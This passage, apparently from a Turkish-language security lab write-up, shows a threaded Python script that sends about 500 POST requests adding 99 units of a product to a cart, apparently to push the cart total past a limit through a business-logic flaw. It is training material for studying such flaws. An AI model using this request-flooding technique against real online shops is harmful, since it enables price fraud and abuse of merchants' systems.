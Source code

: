 ```python
    "Sec-Fetch-Mode": "navigate",
    "Sec-Fetch-Site": "same-origin",
    "Sec-Fetch-User": "?1",
    "Te": "trailers",
}

data_template = "productId=6&quantity=99&redir=CART"

def send_request(i):
    response = requests.post(url, headers=headers, data=data_template)
    print(f"Request {i}: Status Code - {response.status_code}")

# 10 thread ile çalıştırma
with concurrent.futures.ThreadPoolExecutor(max_workers=10) as executor:
    executor.map(send_request, range(1, 500))

```

Burada eklemeye çalıştığımız ürün fiyatı düşük olduğu için çok fazla eklesek bile dengeleyeceğimiz fiyata ulaşmak biraz daha zor olmakta. 

![Untitled](0x14%20e3d5610b147c47c69793fa5e6472953f/Untitled%2021.png)
